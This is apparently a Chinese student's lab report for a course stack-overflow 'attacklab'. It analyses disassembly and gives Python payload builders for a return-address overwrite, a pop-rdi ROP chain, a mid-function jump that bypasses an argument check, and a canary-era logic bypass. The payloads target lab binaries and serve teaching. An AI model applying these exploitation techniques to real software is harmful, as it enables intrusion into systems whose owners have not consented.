

# 栈溢出攻击实验

## 题目解决思路


### Problem 1: 
- **分析**：
首先给出problem1 中func函数的汇编代码：
```
0000000000401232 <func>:
  401232:       f3 0f 1e fa             endbr64
  401236:       55                      push   %rbp
  401237:       48 89 e5                mov    %rsp,%rbp
  40123a:       48 83 ec 20             sub    $0x20,%rsp        
  40123e:       48 89 7d e8             mov    %rdi,-0x18(%rbp)  
  401242:       48 8b 55 e8             mov    -0x18(%rbp),%rdx  
  401246:       48 8d 45 f8             lea    -0x8(%rbp),%rax  
  40124a:       48 89 d6                mov    %rdx,%rsi        
  40124d:       48 89 c7                mov    %rax,%rdi         
  401250:       e8 5b fe ff ff          call   4010b0 <strcpy@plt> 
  401255:       90                      nop
  401256:       c9                      leave
  401257:       c3                      ret

```
由40123a，我们知道了栈空间分配了 0x20 (32) 字节，由401246，我们知道了缓冲区位于 rbp-8 的位置。
栈的结构如图：
```
+-----------------+
|    retaddr      |  <-- rbp+8
+-----------------+
|   saved rbp     |  <-- rbp
+-----------------+
|                 |
|   缓冲区         |  <-- rbp-8 (8字节)
|                 |
+-----------------+
|   局部变量等      |  (剩下24字节)
+-----------------+
```
所以偏移量是从缓冲区起始位置 rbp-8 到返回地址 rbp+8 的距离即16字节。
再看关键函数func_1:
```
0000000000401232 <func>:
  401232:       f3 0f 1e fa             endbr64
  401236:       55                      push   %rbp
  401237:       48 89 e5                mov    %rsp,%rbp
  40123a:       48 83 ec 20             sub    $0x20,%rsp         
  40123e:       48 89 7d e8             mov    %rdi,-0x18(%rbp)  
  401242:       48 8b 55 e8             mov    -0x18(%rbp),%rdx  
  401246:       48 8d 45 f8             lea    -0x8(%rbp),%rax   ; 
  40124a:       48 89 d6                mov    %rdx,%rsi         
  40124d:       48 89 c7                mov    %rax,%rdi         
  401250:       e8 5b fe ff ff          call   4010b0 <strcpy@plt> 
  401255:       90                      nop
  401256:       c9                      leave
  401257:       c3                      ret
```
由第一行就知道func1的地址是0x401216。所以我们前16字节填充数据，覆盖缓冲区到saved rbp，后8字节覆盖返回地址，设置为func1的地址0x401216。
- **解决方案**：
```
padding = b"A" * 16  
func1_address = b"\x16\x12\x40\x00\x00\x00\x00\x00"  #0x401216

payload = padding + func1_address
# 写入文件
with open("ans1.txt", "wb") as f:
    f.write(payload)
print("Payload written to ans1.txt")
```
- **结果**：附上图片


### Problem 2:
- **分析**：
这是关键函数func2的汇编代码：
```
0000000000401216 <func2>:
  401216:       f3 0f 1e fa             endbr64
  40121a:       55                      push   %rbp
  40121b:       48 89 e5                mov    %rsp,%rbp
  40121e:       48 83 ec 10             sub    $0x10,%rsp
  401222:       89 7d fc                mov    %edi,-0x4(%rbp)      
  401225:       81 7d fc f8 03 00 00    cmpl   $0x3f8,-0x4(%rbp)   
  40122c:       74 1e                   je     40124c <func2+0x36> 
  40122e:       48 8d 05 d3 0d 00 00    lea    0xdd3(%rip),%rax    
  401235:       48 89 c7                mov    %rax,%rdi
  401238:       b8 00 00 00 00          mov    $0x0,%eax
  40123d:       e8 8e fe ff ff          call   4010d0 <printf@plt>
  401242:       bf 00 00 00 00          mov    $0x0,%edi
  401247:       e8 d4 fe ff ff          call   401120 <exit@plt>
  40124c:       48 8d 05 e8 0d 00 00    lea    0xde8(%rip),%rax   
  401253:       48 89 c7                mov    %rax,%rdi
  401256:       b8 00 00 00 00          mov    $0x0,%eax
  40125b:       e8 70 fe ff ff          call   4010d0 <printf@plt> 
  401260:       bf 00 00 00 00          mov    $0x0,%edi
  401265:       e8 b6 fe ff ff          call   401120 <exit@plt>
```
由此我们可以得知func2 地址是0x401216，同时由401225的cmpl   $0x3f8,-0x4(%rbp) 语句知道func2 需要一个参数，并且参数值必须为 0x3f8 (1016)，参数通过edi寄存器传递。
下面时func函数和pop rdi函数：
func:
```
0000000000401290 <func>:
  401290:       f3 0f 1e fa             endbr64
  401294:       55                      push   %rbp
  401295:       48 89 e5                mov    %rsp,%rbp
  401298:       48 83 ec 20             sub    $0x20,%rsp        
  40129c:       48 89 7d e8             mov    %rdi,-0x18(%rbp)  
  4012a0:       48 8b 4d e8             mov    -0x18(%rbp),%rcx  
  4012a4:       48 8d 45 f8             lea    -0x8(%rbp),%rax   
  4012a8:       ba 38 00 00 00          mov    $0x38,%edx       
  4012ad:       48 89 ce                mov    %rcx,%rsi         
  4012b0:       48 89 c7                mov    %rax,%rdi        
  4012b3:       e8 38 fe ff ff          call   4010f0 <memcpy@plt> 
  4012b8:       90                      nop
  4012b9:       c9                      leave
  4012ba:       c3                      ret
```
pop_rdi:
```
00000000004012bb <pop_rdi>:
  4012bb:       f3 0f 1e fa             endbr64
  4012bf:       55                      push   %rbp
  4012c0:       48 89 e5                mov    %rsp,%rbp
  4012c3:       48 89 7d f8             mov    %rdi,-0x8(%rbp)    将rdi保存到栈上
  4012c7:       5f                      pop    %rdi               pop rdi指令
  4012c8:       c3                      ret                      返回
```
我们得知：pop rdi 指令位于 0x4012c7，而且这个gadget可以将栈上的值弹出到rdi寄存器中，这样就为我们提供攻击的可能。
在 func 函数中：
栈空间分配了 0x20 (32) 字节缓冲区位于 rbp-8 的位置
memcpy函数固定拷贝 0x38 (56) 字节，而从缓冲区起始位置 rbp-8 到返回地址 rbp+8 的距离为16字节。
由于NX enabled，我们不能在栈上执行代码，所以我们以pop_rdi为切入点，先覆盖返回地址为 pop rdi gadget 地址0x4012c7，然后在栈上放置参数值 0x3f8和func2地址0x401216。这样控制流就会是pop rdi → 将参数弹出到rdi → 跳转到func2，从而完成攻击。
- **解决方案**：
```
# payload.py
padding = b"A" * 16  
# pop rdi gadget地址
pop_rdi_addr = b"\xc7\x12\x40\x00\x00\x00\x00\x00"  # 0x4012c7
#  参数值 0x3f8 (1016)
param_value = b"\xf8\x03\x00\x00\x00\x00\x00\x00"  # 小端格式：0x3f8
#  func2地址
func2_addr = b"\x16\x12\x40\x00\x00\x00\x00\x00"  # 0x401216
payload = padding + pop_rdi_addr + param_value + func2_addr
# 写入文件
with open("ans2.txt", "wb") as f:
    f.write(payload)
print("Payload written to ans2.txt")
```

- **结果**：附上图片


### Problem 3: 
- **分析**：
目标函数func1：
```
0000000000401216 <func1>:
  401216:       f3 0f 1e fa             endbr64
  40121a:       55                      push   %rbp
  40121b:       48 89 e5                mov    %rsp,%rbp
  40121e:       48 83 ec 50             sub    $0x50,%rsp
  401222:       89 7d bc                mov    %edi,-0x44(%rbp)       
  401225:       83 7d bc 72             cmpl   $0x72,-0x44(%rbp)   
  401229:       75 57                   jne    401282 <func1+0x6c> 
  40122b:       ...                      输出目标字符串的代码
  401280:       eb 4e                   jmp    4012d0 <func1+0xba>   跳转到退出
  401282:       ...                      输出错误信息的代码
  4012d0:       bf 00 00 00 00          mov    $0x0,%edi
  4012d5:       e8 46 fe ff ff          call   401120 <exit@plt>
```
我们观察汇编代码得知：func1的地址在0x401216并且需要参数 0x72 (114)，参数通过 edi 寄存器传递。而且，输出目标字符串的代码从 0x40124c 开始
再看func函数：
```
0000000000401355 <func>:
  401355:       f3 0f 1e fa             endbr64
  401359:       55                      push   %rbp
  40135a:       48 89 e5                mov    %rsp,%rbp
  40135d:       48 83 ec 30             sub    $0x30,%rsp        
  401361:       48 89 7d d8             mov    %rdi,-0x28(%rbp)  
  401365:       48 89 e0                mov    %rsp,%rax       
  401368:       48 89 05 a1 21 00 00    mov    %rax,0x21a1(%rip) # 403510 <saved_rsp>
  40136f:       48 8b 4d d8             mov    -0x28(%rbp),%rcx  
  401373:       48 8d 45 e0             lea    -0x20(%rbp),%rax  
  401377:       ba 40 00 00 00          mov    $0x40,%edx        
  40137c:       48 89 ce                mov    %rcx,%rsi        
  40137f:       48 89 c7                mov    %rax,%rdi        
  401382:       e8 69 fd ff ff          call   4010f0 <memcpy@plt> 
  401387:       ...                      后续代码
  4013a6:       c9                      leave
  4013a7:       c3                      ret
```
在 func 函数中,栈空间分配了 0x30 (48) 字节,而缓冲区位于 rbp-0x20 的位置。memcpy函数固定拷贝 0x40 (64) 字节。保存了栈指针到全局变量 saved_rsp。从缓冲区起始位置 rbp-0x20 到返回地址 rbp+8 的距离为40字节。所以需要40字节填充才能覆盖返回地址。
我们直接跳转到func1中输出字符串的部分，绕过参数检查。观察func1代码：0x40124c 处开始输出目标字符串这绕过了参数检查（0x401225 处的比较），直接输出目标字符串然后退出。
- **解决方案**：payload是什么，即你的python代码or其他能体现你payload信息的代码/图片
```
# payload.py
padding = b"A" * 40  
target_addr = b"\x4c\x12\x40\x00\x00\x00\x00\x00"  # 0x40124c
payload = padding + target_addr

# 写入文件
with open("ans3.txt", "wb") as f:
    f.write(payload)
print("Payload written to ans3.txt")
```
- **结果**：附上图片

### Problem 4: 
- **分析**：体现canary的保护机制是什么
多个函数如func,func1和caesar_decrypt都执行了此机制。
以caesar_decrypt函数为例子：
```
 函数开头保存 canary
121c:       64 48 8b 04 25 28 00    mov    %fs:0x28,%rax
1223:       00 00 
1225:       48 89 45 f8             mov    %rax,-0x8(%rbp)

 函数返回前检查 canary
1306:       48 8b 45 f8             mov    -0x8(%rbp),%rax
130a:       64 48 2b 04 25 28 00    sub    %fs:0x28,%rax
1311:       00 00 
1313:       74 05                   je     131a
1315:       e8 b6 fd ff ff          call   10d0 <__stack_chk_fail@plt>
```
在函数开始时，从 %fs:0x28 读取一个随机值（canary）保存到栈上；函数返回前检查该值是否被修改，若被修改则调用 __stack_chk_fail 终止程序，防止栈溢出攻击。
攻击思路：题目要求输出通关提示，而通关条件在func函数中。通过分析代码，发现需要满足-0xc(%rbp)的值必须为-1以及-0x18(%rbp)的值的条件。因此我们直接运行problem4，先开头输入随便2个字符串例如a,b，在给yuanshi的那一栏输入-1，即可绕开检测，完成攻击。
- **解决方案**：payload是什么，即你的python代码or其他能体现你payload信息的代码/图片
- **结果**：附上图片

## 思考与总结
这个attacklab非常有趣，我学习到了：
题目1是基础站的溢出。其根本原因是它使用 strcpy 将输入复制到固定大小的缓冲区，无长度检查。让我们有了缓冲区溢出攻击的机会。这启示我们要有长度检测才能防止最基础的攻击。
题目2虽然有了NX保护，栈上代码不可执行，但是现有的 pop_rdi gadget（0x4012c7）给了我们将相关参数弹到rdi的机会完成攻击，所以不要留后门。
题目3加入了参数检查和循环，这告诉了我攻击需要同时满足参数条件和栈溢出。可以通过输入控制参数，然后覆盖返回地址到目标函数内部的某个位置，绕过或通过参数检查。
题目4在Canary栈保护下无明显的栈溢出漏洞，但程序逻辑存在一个循环次数极多（约43亿次）的循环，导致程序无法正常执行到输出通关提示。给了我们可乘之机。所以代码的时间复杂性也是安全的一部分。
综上，溢出攻击的角度是多种多样的，要在编程过程中就加以注意。


## 参考资料

列出在准备报告过程中参考的所有文献、网站或其他资源，确保引用格式正确。
